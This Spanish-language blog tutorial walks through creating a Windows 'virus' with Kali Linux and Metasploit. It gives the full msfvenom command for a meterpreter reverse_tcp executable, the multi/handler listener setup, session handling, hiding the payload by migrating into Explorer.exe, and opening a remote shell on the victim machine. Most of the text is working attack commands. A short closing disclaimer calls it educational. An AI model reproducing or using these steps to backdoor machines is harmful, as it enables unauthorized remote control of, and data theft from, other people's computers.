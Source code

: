 # Creación de Virus y Control Remoto del Equipo Víctima con Kali Linux

Publicado el 9 de agosto de 2015 por David

## Introducción

En este tutorial, aprenderás cómo crear un virus usando el Metasploit Framework en Kali Linux. Este proceso incluye la generación de un payload y la configuración de un servidor para interactuar y controlar remotamente el equipo infectado.

### Creación del Payload

Para comenzar, necesitas abrir una terminal en Kali Linux y ejecutar el siguiente comando:

```msfvenom -p windows/meterpreter/reverse_tcp LHOST=[tu IP] LPORT=9999 -a x86 –platform windows -o /root/Desktop/virus.exe -f exe```
'-p': Especifica el payload a utilizar.
'-a': Define la arquitectura que utilizará el virus.
'--platform': Determina la plataforma en la que actuará el virus.
'-o': Establece el directorio donde se guardará el virus.
'-f': Define el formato en el que se guardará el virus.

# Creación del Servidor
Para interactuar con los equipos infectados, abre otra terminal y ejecuta:
msfconsole

Dentro de Metasploit, configura el handler para el payload:
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.116
set LPORT 9999
exploit -j

# Explotación y Control Remoto
Una vez que el virus se ejecute en una máquina Windows, podrás controlarla remotamente. Usa el comando 'sessions -i' para ver las sesiones activas y conectarte a la máquina atacada:
'sessions -i 1'

Con esto, tendrás acceso a los procesos de la máquina infectada. Puedes ocultar el virus fusionándolo con otro proceso como 'Explorer.exe' usando el comando 'migrate'.

# Obtención de la Shell Remota
Para interactuar directamente con la máquina infectada:
'shell'

Advertencia
Este tutorial es meramente educativo. Crear y distribuir virus es una actividad ilegal en muchas jurisdicciones. Este conocimiento debe usarse solo en entornos controlados y con fines educativos.
